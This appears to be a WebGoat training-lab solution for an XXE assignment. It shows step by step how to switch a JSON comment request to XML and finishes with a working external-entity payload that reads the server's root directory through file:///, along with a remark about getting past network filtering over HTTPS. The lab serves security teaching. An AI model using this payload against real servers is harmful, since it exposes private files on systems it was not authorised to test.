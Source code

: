 === Assignment solution

The idea behind this assignment is that while it may look that the application is only accepting JSON but if we change the body of the message to XML the framework might process it. When you try entering a comment the body of request will be:

[source, json]
----
{"text":"My first comment"}
----

This is a normal json message, let's try to change the content-type of the request

[source]
----
POST https://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

{"text":"My first comment"}
----

this results in the following exception:

[source]
----
javax.xml.bind.UnmarshalException\n - with linked exception:\n[javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,1]\nMessage: Content is not allowed in prolog.
----

Depending on the XML parser you might get a better error message, in this case the message is a bit cryptic, it means that we are not sending valid xml. For example the Jackson library gives the following message:

[source]
----
JSON parse error: Unexpected character '{' (code 123) in prolog; expected
      '<'\n at [row,col {unknown-source}]: [1,1]; nested exception is com.fasterxml.jackson.core.JsonParseException:
      Unexpected character '{' (code 123) in prolog; expected '<'\n at [row,col {unknown-source}]: [1,1]“
----

This error message appears because we are still sending a json message towards the endpoint, so if we intercept and change the json message to a xml message:

[source]
----
POST https://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<text>This is my first message</text>
----

Again an error message from the endpoint:

[source]
----
"javax.xml.bind.UnmarshalException\\n - with linked exception:\\n[com.sun.istack.SAXParseException2; lineNumber: 1; columnNumber: 7; unexpected element (uri:\\\"\\\", local:\\\"text\\\"). Expected elements are <{}comment>]
----

The parser complains that the message is not a valid xml message and needs to be embedded in a `comment` tag:

[source, xml]
----
POST https://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<comment><text>This is my first message</text></comment>
----

The endpoint no longer complains and if you refresh the page in WebGoat the posted comments appear. For the attack to work we need to post:

[source, xml]
----
POST https://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;This is my first message</text></comment>
----

In some company networks some network devices might drop this payload completely if it was sent over HTTP. In that case no response is returned on the `POST` and the endpoint never receives the request. However, these kind of protections are of limited use, as the same request would pass successfully in an HTTPS setup, where that payload would be encrypted.
